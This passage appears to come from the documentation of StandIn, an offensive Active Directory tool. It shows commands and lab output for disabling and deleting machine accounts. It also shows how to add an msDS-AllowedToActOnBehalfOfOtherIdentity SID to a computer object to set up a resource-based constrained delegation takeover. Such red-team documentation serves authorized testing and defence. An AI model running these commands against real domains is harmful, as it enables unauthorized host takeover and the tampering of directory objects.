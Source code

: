Disable a machine that was previously created. This action should be performed in the context of the same user that created the machine. Note that non-elevated users can't delete machine objects only disable them.

```
C:\> StandIn.exe --computer M-1337-b33f --disable

[?] Using DC : m-w16-dc01.main.redhook.local
[?] Object   : CN=M-1337-b33f
    Path     : LDAP://CN=M-1337-b33f,CN=Computers,DC=main,DC=redhook,DC=local

[+] Machine account currently enabled
    |_ Account disabled..
```

### Delete machine object

#### Use Case

> *With elevated AD privileges the operator can delete a machine object, such as once create earlier in the attack chain.*

#### Syntax

Use an elevated context to delete a machine object.

```
C:\> StandIn.exe --computer M-1337-b33f --delete

[?] Using DC : m-w16-dc01.main.redhook.local
[?] Object   : CN=M-1337-b33f
    Path     : LDAP://CN=M-1337-b33f,CN=Computers,DC=main,DC=redhook,DC=local

[+] Machine account deleted from AD
```

### Add msDS-AllowedToActOnBehalfOfOtherIdentity

#### Use Case

> *With write access to a machine object this function allows the operator to add an `msDS-AllowedToActOnBehalfOfOtherIdentity` property to the machine which is required to perform a [resource based constrained delegation](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution) attack.*

#### Syntax

Add an `msDS-AllowedToActOnBehalfOfOtherIdentity` propert to the machine along with a SID to facilitate host takeover using resource based constrained delegation.

```
C:\> StandIn.exe --computer m-10-1909-03 --sid S-1-5-21-1293271031-3053586410-2290657902-1205

[?] Using DC : m-w16-dc01.main.redhook.local
[?] Object   : CN=M-10-1909-03
    Path     : LDAP://CN=M-10-1909-03,OU=Workstations,OU=OCCULT,DC=main,DC=redhook,DC=local
[+] SID added to msDS-AllowedToActOnBehalfOfOtherIdentity

C:\> StandIn.exe --object samaccountname=m-10-1909-03$

[?] Using DC : m-w16-dc01.main.redhook.local
[?] Object   : CN=M-10-1909-03
    Path     : LDAP://CN=M-10-1909-03,OU=Workstations,OU=OCCULT,DC=main,DC=redhook,DC=local

[?] Iterating object properties

```
